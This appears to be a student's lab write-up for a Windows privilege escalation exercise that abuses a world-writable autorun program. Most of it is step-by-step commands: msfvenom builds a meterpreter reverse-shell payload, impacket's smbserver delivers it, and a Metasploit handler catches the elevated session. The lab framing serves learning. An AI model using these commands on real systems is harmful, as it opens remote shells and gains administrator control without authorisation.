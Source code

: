 **Detection**

*Windows VM

1. Open command prompt and type: 

```
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

![[remmina_10.10.70.70_10.10.70.70_20240121-111244.png]]


2. In Autoruns, click on the ‘Logon’ tab.  
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.  

![[remmina_10.10.70.70_10.10.70.70_20240121-111100.png]]


4. In command prompt type:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.

  ![[remmina_10.10.70.70_10.10.70.70_20240121-111409.png]]

**Exploitation**

*Kali VM

1. Open command prompt and type: 

```
msfconsole
```  

![[Pasted image 20240130214515.png]]

2. In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

![[Pasted image 20240130214535.png]]


3. In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp
```  

![[Pasted image 20240130214625.png]]

4. In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```  

![[Pasted image 20240130214720.png]]

5. In Metasploit (msf > prompt) type: 

```
run
```  

![[Pasted image 20240130215045.png]]

6. Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
```  

![[Pasted image 20240130215252.png]]

7. Copy the generated file, program.exe, to the Windows VM.

*Using smbserver:
	- on Kali:
```
python /usr/share/doc/python3-impacket/examples/smbserver.py p .
```

![[Pasted image 20240130220313.png]]

*- on Windows

```
copy \\10.8.194.147\p\program.exe
```

![[Pasted image 20240130220505.png]]


*Windows VM

1. Place program.exe in ‘**C:\Program Files\Autorun Program**’.  

![[Pasted image 20240130220724.png]]

2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit.  

![[Pasted image 20240130221359.png]]

2. In Metasploit (msf > prompt) type: sessions -i [Session ID]  

![[Pasted image 20240130221424.png]]

3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: 

```
getuid
```

![[Pasted image 20240130221448.png]]

Answer the questions below

Click 'Completed' once you have successfully elevated the machine